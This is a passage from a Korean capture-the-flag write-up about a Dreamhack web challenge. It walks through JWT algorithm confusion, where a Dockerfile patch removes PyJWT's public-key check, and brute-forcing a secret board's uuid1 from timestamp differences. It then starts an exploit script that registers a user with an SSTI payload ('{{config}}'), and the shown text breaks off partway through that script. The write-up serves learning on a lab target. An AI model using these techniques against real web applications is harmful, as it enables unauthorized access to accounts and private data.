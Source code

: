 이런 방식으로 말이다. 여기에 추가적으로 요즘 버전의 JWT에서는 공개키를 활용한 decode를 제한하고 있다. 다음과 같은 방법으로..

```python
def prepare_key(self, key):
    key = force_bytes(key)

    invalid_strings = [
        b'-----BEGIN PUBLIC KEY-----',
        b'-----BEGIN CERTIFICATE-----',
        b'-----BEGIN RSA PUBLIC KEY-----',
        b'ssh-rsa'
    ]

    if any([string_value in key for string_value in invalid_strings]):
        raise InvalidKeyError(
            'The specified key is an asymmetric key or x509 certificate and'
            ' should not be used as an HMAC secret.')

    return key
```

근데 참 철두철미한 드림핵은 이것을 도커파일에서 패치해놨다.

```dockerfile
RUN sed -i.bak '143,146d' /usr/local/lib/python3.9/site-packages/jwt/algorithms.py
```

처음에는 이게 뭔가 했었는데 원본.bak을 저장하고 143~146번째 줄을 삭제하는 스크립트였다.
실제 스크립트를 돌릴 때에도 이 부분을 패치해주어야 한다. 나는 도커를 활용해서 처리했다.

### Step 3 : 비밀 게시글 ID 알아내기

사실 나는 여기까지에서 정신이 아득해졌는데, 비밀 게시판에 접근하려면 로그인을 한 번 더 해야한다. 대신 url을 통해 접근하는건 가능하기 때문에, 비밀 게시판의 uuid를 알아내면 접속할 수 있다.

이때 이전에 비밀 게시판과 자유 게시판의 uuid를 비교해본적 있는데, 정말 일부분만 다르고 나머지는 동일했다. 생성과정을 보니 uuid.uuid1() 으로 자유 게시판, 비밀 게시판 순서대로 만들게 되며, 이는 timestamp에만 의존하므로 둘은 timestamp의 차이만큼만 발생하는 것이다. 이 부분은 Brute-force로 알아낼 수 있다. 

### Step 4 : 전체 exploit

전체 exploit을 작성하여 도커 환경(algorithms.py 패치한 python 3.9 환경)에서 실행시켰고, 플래그를 얻을 수 있었다.

```python
import random
import string
import datetime

import requests
import jwt

s = requests.Session()
info = lambda x: print(f"[+] {x}")

URL = "http://host1.dreamhack.games:15967/"
USERNAME = "".join([random.choice(string.ascii_lowercase) for _ in range(10)])
PASSWORD = "".join([random.choice(string.ascii_lowercase) for _ in range(10)])
SCHOOL = "드림대학교"


info(f"USERNAME: {USERNAME}, PASSWORD: {PASSWORD}")


# 1. SSTI
# 1.1. Register with malicious school name, "{{config}}"
s.post(
    f"{URL}/register",
    data={
        "username": USERNAME,
```